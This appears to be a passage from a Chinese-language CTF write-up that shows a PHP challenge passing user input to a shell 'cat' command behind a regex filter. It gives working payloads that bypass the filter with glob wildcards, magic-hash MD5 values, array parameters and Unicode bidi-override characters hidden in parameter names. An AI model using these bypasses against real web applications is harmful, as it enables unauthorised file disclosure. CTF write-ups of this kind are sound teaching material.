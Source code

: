```php
if ("hn" == $_GET['hn'] && "ctf" ==$_GET['ctf']) { //HN! flag!! F
    if(preg_match("/php|\fl4g|\\$|'|\"/i",$want)Or is_file($want))
        die("HACK!");

        else{
            echo "Fine!you win";
            system("cat ./$want");
            } 
}
```

这里利用 `cat` 的通配符支持即可; `cat` 支持 `?` 和 `*` 匹配; 由于 **`*` 支持任意长度, `?` 仅支持单位**, 这里用 `*`

payload:

```
(POST)
want=fl*
或者
want=fl4?????
```

最终:

```
(GET)
/?user=114514&mySaid=QNKCDZO&myHeart=0e215962017&hn=hn&%E2%80%AE%E2%81%A6LAG%E2%81%A9%E2%81%A6ctf=%E2%80%AE%E2%81%A6%20Flag!%E2%81%A9%E2%81%A6ctf HTTP/1.1

(POST)
data[]=Probiu&verify[]=1&want=fl*
```
